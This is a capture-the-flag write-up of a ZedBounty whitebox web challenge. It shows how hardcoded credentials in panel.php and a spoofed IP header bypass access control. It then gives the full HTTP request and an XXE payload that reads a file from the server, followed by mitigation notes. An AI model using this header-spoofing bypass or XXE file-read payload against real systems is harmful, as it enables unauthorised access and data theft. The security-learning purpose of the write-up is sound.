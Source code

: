## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

Vivacell is days away from launching their flagship bio-tech platform: Everything looks perferct on paper, but engineers keep encountering anomalies that vanish before they can be logged. Management call it a glitch. The lead developer calls it "impossible." Youve been quietly invited to validate the system before it goes live. No headlines. No panic. Just you,the code, and whatever its hiding.

### Tools Used
- Burp Suite
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**

![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**

 Since its a whitebox test,configuration files where provided in a zip file.
 
  
![c](https://github.com/user-attachments/assets/d87c1c3b-c666-4a45-86d9-9b3cccfd0ad1)



  *Panel.php looks like an interesting file*


### Key Findings

**1. Access Control bypass**

Upon trying to access panel.php on the live web server our access was denied. 

Something already smells vulnerable.....lol

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)

  
**Lets open up the panel.php file**

  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

  
- Hardcoded credentials discovered via *panel.php* file.....bullseye!
  
- We have admin username and password
  
- A whole ip address and what looks like a vpn server name....hmmm

**Lets take out the big guns now......Burpsuite!**

  --> Intercept request with proxy
  
  --> Insert credentials and spoofed IP in HTTP Header.
  
  --> forward request

  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)
  

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)
    

    *......Sweeeeet!*

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats happening is that the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

Classification: XML External Entity (XXE) Injection

Impact: High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body([View Payload]https://github.com/Mumbi-Sec/PayloadsAllThings/blob/b9e847decb60d436f632a33f48f68fabaa324900/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
 



![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)


 *Look at this server.....so..**responsive** lol*

 **3. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

    POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
    Host: challenge.zedbounty.com

    X-VIVACELL-VPN: 41.18.611.104

    Content-Type: application/xml

    Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)


--> Check The response tab

*Viola.......Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


### 4. Mitigation

- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### 5. Lessons Learned

- Bypassing directory access controls using HTTP Header requests.
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- Never trust user supplied headers to validate ip addresses!

### Thank you.....

## Credits and sources

https://zedbounty.com/

https://portswigger.net/web-security/xxe
